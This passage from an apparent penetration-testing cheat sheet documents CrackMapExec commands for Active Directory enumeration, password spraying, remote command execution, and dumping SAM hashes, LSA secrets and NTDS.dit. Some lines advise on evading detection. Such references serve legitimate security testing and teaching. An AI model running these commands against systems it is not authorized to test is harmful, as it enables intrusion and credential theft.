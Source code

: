 ## Discovery and Enumeration With CrackMapExec

CrackMapExec’s `smb` option is great for gathering information about a target. It can identify live hosts and collect data on domain users, groups, network shares, computers, and active sessions.

It can even let you execute your own [Windows Management Instrumentation](https://learn.microsoft.com/en-us/windows/win32/wmisdk/about-wmi) (WMI) queries to gather information about Active Directory objects, such as organizational units (OUs), policies, and service accounts, while blending in with legitimate network traffic.

|   |   |
|---|---|
|**Command**|**Description**|
|`Crackmapexec  <service> <target>`|Scan `<target>` for a specific service (e.g. `winrm, ldap, ssh, rdp, mssql, ftp, smb`.). This can be used to identify live hosts and open ports.|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --users <target>`|Enumerates domain users. If a user is specified, more information is returned (e.g., access, password policy, etc.)|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --groups <target>`|Enumerates domain groups. If a group is specified, more information is returned.|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --shares <target>`|Enumerates shares and access.|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --computers <target>`|Enumerates computer users (workstations and servers).|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --sessions <target>`|Enumerates active sessions (users currently accessing a share and you could target).|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --wmi <QUERY> <target>`|Executes a specified WMI query to enumerate specific information about domain objects.|

![crackmapexec-smb-enumeration-min](https://www.stationx.net/wp-content/uploads/2024/04/3.-crackmapexec-smb-enumeration-min.jpg)

_CrackMapExec SMB Enumeration_

## Credential Harvesting and Brute Forcing With CrackMapExec

CrackMapExec is infamous for its password attacks and credential dumping capabilities. The tool can run remote commands on systems to identify high-value accounts (e.g., Administrators) and run password spraying or brute attacks against those accounts.

Once it successfully logs in with a high-value account, it can use its credential dumping features to extract NTLM hashes, cleartext passwords, and Kerberos tickets.

|   |   |
|---|---|
|**Command**|**Description**|
|`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> -x ‘net localgroup administrators’ <target>`|Identifies the local Administrator account across machines.|
|`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> -X ‘Get-LocalGroupMember -Group "Administrators"’ <target>`|Identifies the local Administrator account across machines using PowerShell.|
|`crackmapexec ldap -u <USERNAME> -p <PASSWORD> -M whoami <target>`|Identifies the local Administrator account across machines using `whoami` command.|
|`crackmapexec <service> -u <USERNAME> -p <PASSWORD> <target>`|Performs a password spray attack against `<target>`. The `<USERNAME>` option can be a single user, a list of usernames (comma separated), or a file containing usernames. The same goes for the `<PASSWORD>` option with passwords. Use the runtime options above to tune your attack and avoid getting locked out or detected.|
|`crackmapexec <service> -u <USERNAME> -p <PASSWORD> --port <PORT> <target>`|If the service is not running on its standard port, use the `--port` option to specify the custom port.|
|`crackmapexec <service> -u <USERNAME> -p <PASSWORD> --no-bruteforce <target>`|To try username and password combinations (e.g., user1:password1, user2:password2), rather than password spraying with a list of usernames and/or passwords, use the `--no-bruteforce` option.|
|`crackmapexec <service> -u <USERNAME> -p <PASSWORD> --continue-on-success <target>`|To continue guessing login credentials, even after being successful once, use the `--contine-on-success` option.|
|`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> --sam <target>`|Dump SAM hashes from the target system after a successful login. You can use `smb` or `winrm` services.|
|`crackmapexec <smb\|winrm> -u <USERNAME> -p <PASSWORD> --lsa <target>`|Dump LSA secrets from the target system after a successful login. You can use `smb` or `winrm` services.|
|`crackmapexec smb -u <USERNAME> -p <PASSWORD> --ntds [vss,drsupai ] <target>`|Dump the NTDS.dit file from the target Domain Controller after a successful login. You can use either `vss` or `drsuapi` as the method (`drsuapi` is the default).|
